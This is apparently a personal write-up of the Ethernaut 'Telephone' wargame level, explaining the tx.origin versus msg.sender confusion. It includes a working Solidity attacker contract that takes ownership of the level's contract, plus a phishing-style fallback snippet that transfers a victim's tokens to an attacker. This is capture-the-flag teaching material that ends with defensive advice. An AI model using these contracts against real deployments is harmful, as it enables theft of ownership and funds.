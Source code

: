 ```yaml
---
title: "5. Telephone"
tags:
- writeups
---
```


- [diff between tx.origin & msg.sender](https://ethereum.stackexchange.com/questions/1891/whats-the-difference-between-msg-sender-and-tx-origin)
	- `msg.sender`
		- gives direct sender of the msg *(user wallet or another smart contract)*
		- checks where the external function call directly came from
	- `tx.origin`
		- original user wallet that initialized the tx
		- the origin addr of potentially an entire chain of txs & calls
		- `tx.origin` can be only user wallets, not contract ones

## Exploitation
- We can trick the `(tx.origin != msg.sender)` by spoofing `msg.sender`
	- `tx.origin` will be our user address *(i.e `owner` from `PhoneChain`)*
	- `msg.sender` will be the address of the attacking contract
	- thus bypassing the check
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    // change the owner based on tx.origin
    // we can spoof this
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}

contract PhoneChain {
  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function claimOwnership() payable public{
    Telephone(0x9F728A9a2B2c6AC2A008F828086DB24FF5e5fA9d).changeOwner(owner);
  }
}
```

## Takeaways
- confusing `tx.origin` with `msg.sender` can lead to phishing-style attacks, such as [this](https://blog.ethereum.org/2016/06/24/security-alert-smart-contract-wallets-created-in-frontier-are-vulnerable-to-phishing-attacks/)
	- use `tx.origin` to determine whose tokens to transfer
		```solidity
		function transfer(address _to, uint _value) {
			tokens[tx.origin] -= _value;
			tokens[_to] += _value;
		}
		```
	- attacker gets victim to send funds to a malicious contract that calls the transfer function of the token contract
		- `tx.origin`: victim addr while `msg.sender` is the malicious contract's addr
		- results in funds being transferred from the victim to the attacker
		```solidity
		function () payable {
			token.transfer(attackerAddr, 10000);
		}
		```
- don't use `tx.origin` for authentication purposes

## Refs
- [Contracts using tx.origin for auth are vulnerable](https://hackernoon.com/hacking-solidity-contracts-using-txorigin-for-authorization-are-vulnerable-to-phishing)
- [Phising with tx.origin](https://solidity-by-example.org/hacks/phishing-with-tx-origin/)

## See Also
- [[write-ups/Ethernaut Wargame]]
- [[03. CoinFlip]] | [[]]